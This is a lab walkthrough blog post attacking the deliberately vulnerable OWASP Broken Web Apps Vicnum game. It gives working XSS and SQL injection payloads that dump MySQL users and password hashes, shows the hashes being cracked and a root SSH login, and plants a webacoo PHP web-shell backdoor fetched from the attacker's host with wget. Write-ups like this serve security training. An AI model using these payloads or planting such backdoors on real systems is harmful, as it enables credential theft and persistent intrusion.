+++
title = "OWASP Broken Web Apps Vicnum - Guessnum"
slug = "owasp-broken-web-apps-vicnum-guessnum"
+++

I started off just playing the game to see what happens moving through the workflow.  After guessing the number in 8 tries I noticed that the count is being passed from the success page over to the scoreboard, using repeater to repeat with different parameters it turns out you can make up your own score by updating the paramter &cnt.

After letting Burp spider the site I saw a union page: union1.html seems like a sql union challenge..

Looking at the page, the name parameter probably isn't sql injectable, but probably XSS vulnerable.

Throwing:

{% highlight javascript %}
<script>alert(1)</script>
{% endhighlight %}

into the URL for the unionguessname GET parameter worked.

Now for the SQLi stuff.

Doing a quick:

{% highlight sql %}
' or 1 = 1 #
{% endhighlight %}

shows query results for all users on the page, so we know its injectable.

Now to get the db users and their passwords:
{% highlight sql %}
'  union all select user,password,3,4 from mysql.user#
{% endhighlight %}

Then with this I first tried crackstation.net, but wasn't able to get all the passwords for root, then I did a little research and it looks like the hashes are SHA1, after some searching I found this site: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Then just to see how to do it I grabbed the whole database through a web request in Burp:
{% highlight sql %}
'  union all select table_schema, table_name,column_name,4 from information_schema.columns where table_schema != 'mysql' and table_schema != 'information_schema'#
{% endhighlight %}

Next lets ssh to the VM:

{% highlight  bash %}
ssh root@ip
pw: owaspbwa
{% endhighlight %}

Now to get a persisted backdoor.

I've been playing with parrot and it looks like it comes with a web backdoor named webacoo, after some researching, it looks pretty solid, now to set things up.  

First the backdoor has to be generated:

{% highlight bash %}
webacoo -g -o bd.php
{% endhighlight %}

The -o option specifies to output to a file and the -g specifies to generate backdoor code, there is another option -f that allows control over what PHP function gets called to invoke the shell.

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

{% highlight bash %}
wget http://iptoparrot:8000/bd.php
{% endhighlight %}

Then to test things out:

{% highlight bash %}
webacoo -t -u http://ip/bd.php
{% endhighlight %}
